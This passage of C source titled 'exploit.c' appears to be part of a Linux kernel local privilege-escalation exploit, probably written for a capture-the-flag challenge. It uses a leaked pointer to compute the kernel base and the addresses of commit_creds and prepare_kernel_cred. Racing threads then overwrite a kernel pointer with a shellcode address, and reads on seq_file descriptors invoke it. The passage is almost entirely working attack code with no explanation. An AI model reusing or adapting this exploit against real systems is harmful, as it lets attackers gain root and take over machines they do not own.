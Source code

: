 ```exploit.c
  if (target_offset == 0) {
    errExit("target not found...");
  }
  printf("[!] target found @ offset 0x%lx\n", target_offset);
  print_curious(buf + target_offset, 8 * 8);

  ulong single_start = *(ulong *)(buf + target_offset);
  ulong kernbase = single_start - 0x16e1a0;
  ulong pkc = (0xffffffff810709f0 - 0xffffffff81000000) + kernbase;
  ulong commit_creds = (0xffffffff81070860 - 0xffffffff81000000) + kernbase;
  printf("[!] single_start: 0x%lx\n", single_start);
  printf("[!] kernbase: 0x%lx\n", kernbase);
  printf("[!] pkc: 0x%lx\n", pkc);
  printf("[!] commit_creds: 0x%lx\n", commit_creds);

  rooter_pkc = pkc;
  rooter_commit_creds = commit_creds;

  // overwrite
  printf("[+] overwrite as %lx\n", shellcode);
  ulong value = (ulong)shellcode;
  SHOULDEND = 0;

  puts("[.] writer thread initing...");
  assert(pthread_create(&writer_thr, NULL, writer2, (void *)0) == 0);
  puts("[.] targeter thread initing...");
  assert(pthread_create(&zeroer_thr, NULL, targeter, (void *)0) == 0);
  puts("[...] waiting lack...");
  sleep(3);
  SHOULDEND = 1;

  sk_seek_abs(target_offset);
  long nowvictim = 0;
  assert(read(fd, &nowvictim, 8) != -1);
  if(nowvictim == single_start) {
    printf("[-] failed to overwrite...\n");
    errExit(0);
  } else {
    printf("[!!] overwrite success!! : 0x%lx\n", nowvictim);
  }

  //print_curious(buf, MAX_NOTE_SIZE * REPEAT);


  //ulong cur = sk_seek_abs(target_offset);
  //printf("[+] cur: %lx\n", cur);
  //for (int ix = 0; ix != 4; ++ix)
  //{
  //  if(write(fd, &value, 8) == -1) {
  //    puts("fail");
  //    WAIT;
  //    errExit("write");
  //  }
  //}

  // invoke shellcode
  puts("[.] reading seqs");
  char hoge[0x10];
  for (int ix = 0; ix != SEQSIZE; ++ix)
  {
    if(read(seq_fds[ix], hoge, 1) == -1) {
      errExit("seq read");
    }
```
